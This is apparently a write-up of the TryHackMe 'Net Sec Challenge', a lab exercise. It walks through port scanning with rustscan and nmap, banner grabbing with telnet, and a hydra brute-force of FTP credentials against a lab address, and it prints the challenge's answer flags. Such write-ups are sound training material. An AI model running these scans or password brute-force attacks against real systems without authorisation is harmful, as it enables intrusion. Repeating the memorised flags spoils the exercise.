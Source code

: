 # TryHackMe Net Sec Challenge

## Overview

This writeup covers the TryHackMe Net Sec Challenge, which involves port scanning, banner grabbing, FTP enumeration, and retrieving hidden flags. The challenge is designed to test fundamental network enumeration and exploitation techniques using common tools.

## Tools Used

- `rustscan` (for fast port scanning)
- `nmap` (for service/version detection)
- `telnet` (for manual banner grabbing)
- `hydra` (for brute-forcing FTP credentials)

## Enumeration

Initial port scan using Rustscan:

```bash
rustscan -a 10.10.172.21
```

![answer1-2-3](https://github.com/user-attachments/assets/1b33c0c4-16d7-4e78-8022-d68252d5850a)

This revealed the following:

- Highest open port under 10,000: **8080**
- An open port above 10,000: **10021**
- Total TCP ports open: **6** (as per scan results)

## Banner Grabbing

### HTTP Header Flag
Using Telnet to check HTTP headers:

```bash
telnet 10.10.172.21 80
HEAD / HTTP/1.1
Host: telnet
```
![answer4](https://github.com/user-attachments/assets/bbfb8f02-93f4-44f3-9710-d4110e8d5df5)

**Flag found in HTTP header**: `THM{web_server_25352}`

### SSH Header Flag

```bash
telnet 10.10.172.21 22
```

![answer5](https://github.com/user-attachments/assets/5fdc2cd5-be3f-43a0-82ea-872ccec75e86)

**Flag found in SSH banner**: `THM{946219583339}`

## FTP Enumeration

The FTP server is running on port `10021`. To identify the service version:

```bash
sudo nmap -sS 10.10.172.21 -p10021 -T4 -A
```

![answer6](https://github.com/user-attachments/assets/25a434bd-bd1d-4e40-88bd-016c839ec50f)

**FTP Version**: `vsftpd 3.0.3`

## Brute Forcing FTP Login

We identified potential usernames via social engineering: `quinn` and `eddie`. To brute-force the password:

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt 10.10.172.21 ftp -s 10021
```

![method7](https://github.com/user-attachments/assets/8599f4f2-c7cc-46f9-8524-23a4277670c0)

Once credentials were obtained, we logged in:

```bash
ftp 10.10.172.21 -P 10021
```

![method7-2](https://github.com/user-attachments/assets/265bcb26-335a-482c-8d72-7bd2c0b35f5c)

Downloaded the flag file:

```bash
cat ftp_flag.txt
```

![method7-3](https://github.com/user-attachments/assets/754133e2-632b-407f-b412-ecdfb4107a25)

**Flag from FTP user files**: `THM{321452667098}`

## HTTP Challenge (Port 8080)

Visiting the following URL showed a web-based challenge:

```
http://10.10.172.21:8080
```
This challenge was discovered using:

```bash
sudo nmap -sN 10.10.172.21
```

![answer8](https://github.com/user-attachments/assets/375d89f2-21f5-49fe-a0f2-b126ecdb1f79)


Solving the puzzle revealed another flag.

**Flag from port 8080**: `THM{f7443f99}`

## Conclusion

This challenge demonstrated a variety of basic techniques in network security:

- High-speed port scanning with Rustscan
- Manual service enumeration
- FTP brute-forcing and file retrieval
- Identifying hidden data in server banners

It's an excellent exercise for building foundational network pentesting skills.

